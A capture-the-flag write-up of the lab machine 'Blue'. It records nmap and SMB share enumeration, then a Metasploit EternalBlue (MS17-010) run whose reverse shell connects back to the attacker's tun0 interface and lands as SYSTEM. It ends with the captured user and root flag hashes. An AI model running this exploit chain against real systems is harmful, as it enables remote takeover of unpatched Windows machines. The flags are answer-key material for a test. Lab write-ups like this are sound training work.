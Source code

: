 # Blue 
## IP 
> 10.10.10.40

## nmap scan

```
nmap -T4 -p- -A 10.10.10.40 -Pn
```

```a
Nmap scan report for 10.10.10.40
Host is up (0.061s latency).
Not shown: 65526 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:

Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -17m53s, deviation: 34m37s, median: 2m04s
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-07-30T03:47:25+01:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-07-30T02:47:26
|_  start_date: 2021-07-30T02:42:31

TRACEROUTE (using port 110/tcp)
HOP RTT       ADDRESS
1   112.12 ms 10.10.16.1
2   33.63 ms  10.10.10.40
```

## System Info 
> OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
 Computer name: haris-PC

## Open Ports
       

> 445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
> 
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn

Both SMB 


> 135/tcp   open  msrpc        Microsoft Windows RPC

RPC

## rcpinfo

```rpcinfo -p 10.10.10.40```

> 10.10.10.40: RPC: Remote system error — Connection refused
## smbclient

```
smbclient -L \\\\10.10.10.40\\
```

![Image 1](Pasted image 20210729225254.png)

IPC$ ```smbclient \\\\10.10.10.40\\IPC$``` Empty

ADMIN$ ```smbclient \\\\10.10.10.40\\ADMIN$``` Access Denied 

C$ ```smbclient \\\\10.10.10.40\\C$``` Access Denied 

Users ```smbclient \\\\10.10.10.40\\Users``` Rabbit Hole

Share ```smbclient \\\\10.10.10.40\\Share``` Empty

## Metasploit 
Tried finding SMB version, I did not find any new information 

I looked online for "windows 7 professional sp1 6.1 smb exploit" and found this [rapid7 link](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/)

I tried the exploit and set the options and was able to create a shell 

```
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 10.10.10.40
set lhost tun0
run
```

## Post Exploitation Information

```getuid``` Server username: NT AUTHORITY\SYSTEM == We are root

```sysinfo```

![Image 1](Pasted image 20210729230442.png)


#### Finding user.txt

```
cd c:\
cd Users
cd haris
cd Desktop
type user.txt
```

>
4c546aea7dbee75cbd71de245c8deea9

#### Finding root.txt

```
cd c:\
cd Users
cd Administrator
cd Desktop
type root.txt
```

>
ff548eb71e920ff6c08843ce9df4e717
